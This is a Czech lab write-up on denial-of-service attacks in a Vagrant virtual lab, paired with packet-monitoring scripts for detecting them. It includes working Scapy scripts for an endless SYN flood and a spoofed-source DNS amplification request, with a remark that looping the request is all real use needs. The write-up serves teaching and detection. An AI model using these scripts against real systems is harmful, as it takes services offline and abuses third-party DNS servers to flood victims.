






# Denial of Service

Pro vypracování používáme virtuální stroje vytvořené pomocí nástroje `Vagrant`. Definice těchto strojů je popsána v příslušném `Vagrantfile` souboru.

Vytvořili jsme DNS server, počítač útořníka a oběti.

DNS server jsme zrpovoznili podle návodu na https://www.unixmen.com/dns-server-setup-using-bind-9-on-centos-7-linux/.

Kontrola otevřeného portu na DNS serveru

```bash
$ nmap -sU -sC -sV -p53 192.168.56.12
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-26 18:54 Central Europe Daylight Time
Nmap scan report for 192.168.56.12
Host is up (0.0010s latency).

PORT   STATE SERVICE VERSION
53/udp open  domain  ISC BIND 9.11.4-P2 (RedHat Enterprise Linux 7)
| dns-nsid:
|_  bind.version: 9.11.4-P2-RedHat-9.11.4-26.P2.el7_9.4
|_dns-recursion: Recursion appears to be enabled
MAC Address: 08:00:27:AF:89:EB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.43 seconds
```

## SYN Flood

Skript `syndos.py` odesílá ve smyšce pakety s příznakem `SYN` na adresu oběti a port 80.

Skript použitý pro odesílání paketů způsobujících útok typu `SYN flood`:

```python
from scapy.all import *

target_ip = "192.168.56.10"
target_port = 80

ip = IP(dst=target_ip)
tcp = TCP(sport=RandShort(), dport=target_port, flags="S")

raw = Raw(b"Nemam cas delam DoS")

p = ip / tcp / raw
send(p, loop=1, verbose=0)
```

Ukázka útoku na hardwarový přípravek ESP8226:



Přípravek jinak snadardně provozuje následující webovou stránku:



## DNS amplifikace

Skript `dnsamp.py` odesílá DNS paket s podvrženou zrojovou IP adresou. Dotázaný server na tuto adresu následně odesílá odpověd a apmplifikuje tak provoz mířící na skutečný cíl.

Skript odesílá pouze jeden paket jako demonstraci tohoto typu útoku. Pro reálné použití stačí popsaný požadavek odesílat v jednoduchém while cyklu.

```python
from scapy.all import *
 
target     = "192.168.56.10" # Target host
nameserver = "192.168.56.12" # DNS server
 
ip  = IP(src=target, dst=nameserver)
udp = UDP(dport=53)
dns = DNS(rd=1, qdcount=1, qd=DNSQR(qname="fit.cvut.cz", qtype=255))
 
request = (ip/udp/dns)
 
send(request)
```

Útok je demostrován na následujícím obrázku:



# DoS Monitoring

Monotirong nejprve provádíme pomocí python skriptu a nástroje scapy. Následně v programu napsaném v jazyce C.

## Python monitoring

Skript zachytá všechny pakety a filtruje `DNS` pakety a `TCP` pakety s příznakem `SYN`.

```python
from scapy.all import *
from pprint import pprint

interface = "enp0s8"

def show_packet(packt):
    if IP in packt:
        src_ip = packt[IP].src

        # if UDP in packt and str(packt[UDP].dport) == "53":
        if UDP in packt and packt.haslayer(DNS):
            print(f'Got DNS packet from {src_ip}')
            pprint(packt.getlayer(DNS))

        if TCP in packt and str(packt.getlayer(TCP).flags).upper() == "S":
            print(f'Got SYN packet from {src_ip}')
            pprint(packt.getlayer(TCP))


sniff(iface = interface, prn = show_packet, store = 0)
```

Ukázka monitoringu `DNS DoS` pomocí python skriptu:



Monitoring `SYN flood`:



## C Monitoring

To samé dokáže i program `packmon.cpp` napsaný v jazyce `C`. Tento program zároveň vypisuje i celkové počty zachycených paketů.

Ukázka C monitoringu:


